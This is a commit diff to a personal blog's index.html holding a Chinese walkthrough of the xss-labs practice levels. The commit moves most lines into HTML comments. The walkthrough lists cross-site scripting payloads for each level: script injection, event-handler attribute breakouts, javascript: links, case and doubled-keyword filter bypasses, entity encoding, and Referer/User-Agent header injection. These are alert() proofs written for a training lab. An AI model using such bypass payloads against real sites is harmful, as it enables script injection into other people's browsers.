

Before and after one commit to GuoKet/GuoKet.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 127-1222 px from the top of the page, without its empty margins (233-1043 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Site updated: 2022-04-25 17:38:27

```diff
--- a/index.html
+++ b/index.html
@@ -75,22 +75,36 @@
   <div class="article-content">
     <div class="entry">
 
-        <p>XSS-vulfocus/xss-labs</p>
-<p>/**</p>
-<p>第一关：通过控制台输入alert()或者通过URL上test替换为<script>alert(/xss/)</script>。</p>
-<p>第二关：将keyword的值替换为keyword=”&gt;<script>alert('xss')</script> //或者用<code>&quot;&gt;</code>闭合value标签”&gt;<script>alert(1)</script>。</p>
-<p>第三关：将keyword的值替换为keyword=’onfocus=javascript:alert(‘xss’) &gt; //&amp;submit=搜索，鼠标移至输入框。</p>
-<p>第四关：将keyword的值替换为keyword=”onfocus=javascript:alert(‘xss’) “，点击输入框。</p>
-<p>第五关：将keyword的值替换为keyword=”&gt; &lt;a href=javascript:alert(‘xss’) &gt; xss</a> //，点击链接</p>
-<p>或者直接通过超链接输入”&gt; 12<a href="javascript:alert(1)">34</a></p>
-<p>第六关：大小写绕过，”&gt;<Script>alert(1)</script></p>
-<p>第七关：双写绕过的方式，”&gt;<scscriptript>alert(1)</scrscriptipt></p>
+        <!--XSS-vulfocus/xss-labs-->
+
+<!--/**-->
+
+<!--第一关：通过控制台输入alert()或者通过URL上test替换为<script>alert(/xss/)</script>。-->
+
+<!--第二关：将keyword的值替换为keyword="><script>alert('xss')</script> //或者用`">`闭合value标签"><script>alert(1)</script>。-->
+
+<!--第三关：将keyword的值替换为keyword='onfocus=javascript:alert('xss') > //&submit=搜索，鼠标移至输入框。-->
+
+<!--第四关：将keyword的值替换为keyword="onfocus=javascript:alert('xss') "，点击输入框。-->
+
+<!--第五关：将keyword的值替换为keyword="> <a href=javascript:alert('xss') > xss</a> //，点击链接-->
+
+<!--或者直接通过超链接输入"> 12<a href="javascript:alert(1)">34</a>-->
+
+<!--第六关：大小写绕过，"><Script>alert(1)</script>-->
+
+<!--第七关：双写绕过的方式，"><scscriptript>alert(1)</scrscriptipt>-->
+
 <p>第八关：转义字符绕过的方式，java&amp;#115cript:alert(1)</p>
-<p>第九关：链接不合法，所以添加https//，不过直接加语句不合法，所以在最后面注释掉http://通过检测就行，java&amp;#115cript:alert(1)  //http:// </p>
-<p>第十关：查看源代码得知有三个值被隐藏掉了，对这三个值依次赋值查看源码，得知只有第三个值有反应，将第三个值赋为” type=”text” onmouseover=”alert(1)</p>
-<p>第十一关：查看源代码得知有t_ref的value是个URL，burp抓包将reference替换为click me !” type=”button” onclick=”alert(/xss/)</p>
-<p>第十二关：查看源代码得知有t_ua的value有内容，burp抓包将user-Agent替换为click me !” type=”button” onclick=”alert(/xss/)</p>
-<p>*/</p>
+<!--<!--第九关：链接不合法，所以添加https//，不过直接加语句不合法，所以在最后面注释掉http://通过检测就行，java&#115cript:alert(1)  //http://-->-->
+
+<!--第十关：查看源代码得知有三个值被隐藏掉了，对这三个值依次赋值查看源码，得知只有第三个值有反应，将第三个值赋为" type="text" onmouseover="alert(1)-->
+
+<!--第十一关：查看源代码得知有t_ref的value是个URL，burp抓包将reference替换为click me !" type="button" onclick="alert(/xss/)-->
+
+<!--第十二关：查看源代码得知有t_ua的value有内容，burp抓包将user-Agent替换为click me !" type="button" onclick="alert(/xss/)-->
+
+<!--*/-->
 
 
     </div>
```
Also changed, not shown: 2022/04/25/xss-labs/index.html (+31 -19 lines).
